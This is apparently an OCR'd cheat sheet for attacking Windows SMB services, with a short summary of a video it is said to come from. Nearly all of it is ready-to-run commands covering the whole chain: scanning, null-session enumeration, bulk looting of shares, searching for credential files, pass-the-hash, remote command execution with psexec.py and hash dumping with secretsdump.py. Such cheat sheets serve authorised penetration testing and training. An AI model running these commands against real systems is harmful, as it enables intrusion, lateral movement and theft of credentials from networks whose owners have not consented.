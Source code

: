 # Minimal cheat sheet (one-screen flow)

```
# 1) Ports and SMB fingerprint
nmap -p 139,445 -sV -sC -oA nmap/smb $TARGET
nmap -p445 --script "smb-os-discovery,smb-security-mode,smb2-security-mode" $TARGET

# 2) Null/anonymous
smbclient -L "//$TARGET" -N
rpcclient -U "" -N $TARGET

# 3) Users/shares
enum4linux-ng -A $TARGET | tee loot/${TARGET}_e4l.txt
smbmap -H $TARGET -u "$USER" -p "$PASS"

# 4) Access/loot share
smbclient "//$TARGET/SHARE" -U "${DOMAIN}/${USER}%${PASS}" -c "recurse ON; prompt OFF; mget *"
# or
smbmap -H $TARGET -u "$USER" -p "$PASS" -r SHARE -A '(pass|cred|key|secret|config)'

# 5) Cred test / PTH
nxc smb $TARGET -u "$USER" -p "$PASS" --shares
nxc smb $TARGET -u "$USER" -H "NTHASH" --shares

# 6) RCE (admin) and dump
psexec.py ${DOMAIN}/${USER}:${PASS}@${TARGET}
secretsdump.py ${DOMAIN}/${USER}:${PASS}@${TARGET} -outputfile loot/${TARGET}_secrets
```

# Summary

This video (inferred) guides you through targeting SMB for Windows exploitation: identify SMB services, enumerate users and shares (including via null sessions), access and search shares for credentials, test/spray credentials safely, leverage pass-the-hash, execute commands remotely when you have admin, and dump credentials/hashes via SMB. The core workflow: scan → enumerate → access/loot → credential ops → RCE/dumping → report/cleanup.
